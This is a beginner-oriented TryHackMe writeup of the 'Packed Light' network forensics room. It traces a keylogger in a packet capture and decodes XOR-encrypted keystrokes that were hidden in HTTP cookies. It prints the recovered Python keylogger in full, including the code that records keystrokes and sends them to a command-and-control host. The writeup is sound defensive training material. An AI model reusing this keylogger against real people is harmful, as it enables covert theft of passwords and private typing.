







+++
title = 'Packed Light | TryHackMe Room Writeup'
date = '2026-07-30T22:48:57+05:00'
lastmod = '2026-07-30T22:48:57+05:00'
draft = false
description = 'A beginner-friendly walkthrough of Packed Light, a TryHackMe network forensics challenge about recovering XOR-encrypted keystrokes from HTTP cookies.'
categories = ['Writeups']
tags = ['TryHackMe', 'Network Forensics', 'Wireshark', 'PCAP', 'Python', 'Hacker Holidays']
toc = true
image = 'images/room-header.png'
+++

Welcome to my writeup for the TryHackMe room **[Packed Light](https://tryhackme.com/room/hh-packedlight-02e5330c)**, part of the **Hacker Holidays** series. This was a short network forensics challenge about identifying a covert channel in a packet capture, reassembling the data hidden inside it, and reversing two simple encoding and encryption steps.

> **Spoiler warning:** This walkthrough reveals the room's solution path, but the final flag is masked.


The room provided a `pcapng` file and the following objectives:

- analyze the capture for a covert communication channel;
- identify where the exfiltrated data was hidden and reassemble it;
- decode the recovered data and submit the flag.

The story posted by 0xMia gave us a useful hint: her laptop was contacting a random address on port `8080` once per second, the request headers did not look legitimate, and some form of cryptography was involved.



## Finding the Suspicious Python Script

I opened the capture in Wireshark and started reviewing its HTTP traffic. One request immediately stood out:

```http
GET /temp/updates.py HTTP/1.1
Host: byte-lotus-hotel.thm:8080
```



A Python file being downloaded from a temporary directory was unusual enough to investigate. I right-clicked the packet and selected **Follow → HTTP Stream** to reconstruct the complete request and response.

The response contained a Python keylogger:

```python
import requests
import base64
from pynput import keyboard

C2_URL = "http://byte-lotus-hotel.thm:8080/"

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def sendltr(character):
    raw_bytes = character.encode("utf-8")
    encrypted = xor(raw_bytes, getkey().encode("utf-8"))
    b64_string = base64.b64encode(encrypted).decode("utf-8")

    headers = {
        "User-Agent": (
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
            "ByteLotusClient/1.1"
        ),
        "Cookie": f"hotel_sess_state={b64_string}"
    }

    try:
        requests.get(C2_URL, headers=headers, timeout=0.5)
    except:
        pass

def on_press(key):
    try:
        sendltr(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            sendltr(" ")
        elif key == keyboard.Key.enter:
            sendltr("\n")

print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```



## Understanding the Covert Channel

The script made the exfiltration process clear. Every time a key was pressed, it:

1. encoded the character as UTF-8;
2. encrypted it with a repeating-key XOR operation;
3. Base64-encoded the encrypted byte;
4. stored the result in a cookie named `hotel_sess_state`;
5. sent an HTTP `GET` request to the command-and-control server.

The full XOR key was assembled from two strings:

```text
H0t3lSt@ff0NlyK3epS3cr3t!
```

There was also an important implementation detail. `sendltr()` processed only one character at a time, so the XOR function restarted at index zero for every request. Each captured value was therefore XORed with the first byte of the key, `H`, rather than with successive bytes of the complete key.

The traffic looked like a series of ordinary requests, but each cookie carried one encrypted keystroke:

```http
Cookie: hotel_sess_state=HA==
```



## Isolating the Exfiltration Traffic

Wireshark's **Statistics → Endpoints** view showed that most of the capture's packets involving the victim, `192.168.1.141`, were exchanged with `34.41.103.191`. This was also the address from which the keylogger had been downloaded.



I filtered the capture to show HTTP `GET` requests involving that address:

```text
ip.addr == 34.41.103.191 && http && http.request.method == "GET"
```

This exposed the full sequence of requests. Apart from the initial download of `updates.py`, the requests contained short Base64 values in the `hotel_sess_state` cookie at regular intervals.



Reading those values in packet order produced:

```python
captured = [
    "HA==", "AA==", "BQ==", "Mw==", "Hg==", "ew==", "Og==",
    "fA==", "Fw==", "eQ==", "Ow==", "Fw==", "Pw==", "fA==",
    "PA==", "Kw==", "IA==", "eQ==", "Jg==", "Lw==", "Fw==",
    "eA==", "Pg==", "LQ==", "Gg==", "Fw==", "MQ==", "eA==",
    "PQ==", "NQ=="
]
```

The order matters because each request represents one keystroke.

## Decoding the Captured Keystrokes

To reverse the process, I Base64-decoded each cookie and applied the same XOR function with the key recovered from the keylogger:

```python
import base64

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return (p1 + p2).encode("utf-8")

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(
        byte ^ key[index % len(key)]
        for index, byte in enumerate(data)
    )

captured = [
    "HA==", "AA==", "BQ==", "Mw==", "Hg==", "ew==", "Og==",
    "fA==", "Fw==", "eQ==", "Ow==", "Fw==", "Pw==", "fA==",
    "PA==", "Kw==", "IA==", "eQ==", "Jg==", "Lw==", "Fw==",
    "eA==", "Pg==", "LQ==", "Gg==", "Fw==", "MQ==", "eA==",
    "PQ==", "NQ=="
]

plaintext = b"".join(
    xor(base64.b64decode(value), getkey())
    for value in captured
)

print(plaintext.decode("utf-8"))
```

It is important to decode and XOR each value separately, just as the keylogger encrypted each character separately.

Running the script reconstructed the flag:



## Takeaways

Packed Light demonstrated a useful packet-analysis workflow:

- investigate unusual downloaded files and reconstruct them by following their streams;
- read recovered malware code to understand its protocol rather than guessing from traffic alone;
- use endpoint statistics and display filters to isolate a suspicious conversation;
- inspect HTTP headers and cookies, not only request paths and response bodies;
- preserve packet order when rebuilding data sent one character at a time;
- reverse transformations in the opposite order: Base64 decode first, then XOR;
- reproduce implementation details such as the XOR key resetting for every request.

The main lesson is that familiar HTTP fields can carry covert data. Here, the traffic blended into a series of simple `GET` requests, but the regular timing, unusual user agent, and one-byte cookie values revealed a keylogger quietly exfiltrating keystrokes.

And we're done!
